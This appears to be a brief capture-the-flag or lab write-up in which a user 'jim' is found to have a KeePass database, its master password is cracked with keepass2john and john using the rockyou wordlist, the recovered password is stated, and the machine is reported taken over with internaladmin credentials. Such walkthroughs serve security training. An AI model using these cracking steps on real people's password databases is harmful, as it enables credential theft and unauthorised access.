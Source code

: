 Initially, we are *relia\jim*.
We have keepass installed.

We will find: *Users\jim\Documents\Database.kdbx*
We will crack the password using john:

```sh
keepass2john Database.kdbx > Keepasshash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt
```

Password found: **mercedes1**.

Pwned using internaladmin credentials.